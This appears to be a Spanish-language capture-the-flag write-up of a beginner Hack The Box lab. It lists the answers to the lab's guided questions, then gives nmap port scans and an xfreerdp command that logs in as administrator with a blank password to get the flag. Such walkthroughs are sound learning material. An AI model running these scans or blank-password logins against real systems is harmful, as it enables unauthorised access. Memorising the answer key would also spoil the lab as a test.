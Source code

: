 #veryeasy #linux #startingpoint #nmap #ping #xfreerdp

----
# Guided Mode


1)¿Qué significa la sigla de 3 letras RDP? 
	 Remote Desktop Protocol

2)¿Qué es un acrónimo de 3 letras que se refiere a la interacción con el host a través de una interfaz de línea de comandos?
	CLI

3)¿Y las interacciones de la interfaz gráfica de usuario? 
	GUI

4)¿Cuál es el nombre de una antigua herramienta de acceso remoto que venía sin cifrado por defecto y escucha en el puerto TCP 23?  
	[[telnet]]

5)¿Cuál es el nombre del servicio que se ejecuta en el puerto 3389 TCP? 
	ms-wbt-server

6)¿Qué interruptor se utiliza para especificar la dirección IP del host de destino cuando se utiliza xfreerdp?  
	/v:

7)¿Qué nombre de usuario nos devuelve correctamente una proyección de escritorio con una contraseña en blanco?
	administrator

---------
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.129.1.13
nmap -p- --open -vvv -n -Pn -sS --min-rate 5000 10.129.1.13 -oG allports 
extractPorts allports         
nmap -sCV -p135,139,445,3389,5985,47001,49664,49665,49666,49667,49668,49669,49670,49671 10.129.1.13 -oN target
```

![[Explosion1.png]]

![[Explosion2.png]]

![[Explosion3.png]]

![[Explosion4.png]]
*TTL:* Maquina windows
*Puertos relevantes:*
	`3389` [[xfreerdp]]

---------
# Intrusion a la maquina con [[xfreerdp]]
```shell
xfreerdp /v:10.129.1.13:3389 /u:administrator
```
Con este comando conseguis una interfaz remota en la maquina victima, y estaba la flag en un txt dentro del escritorio
![[Explosion5.png]]

---------
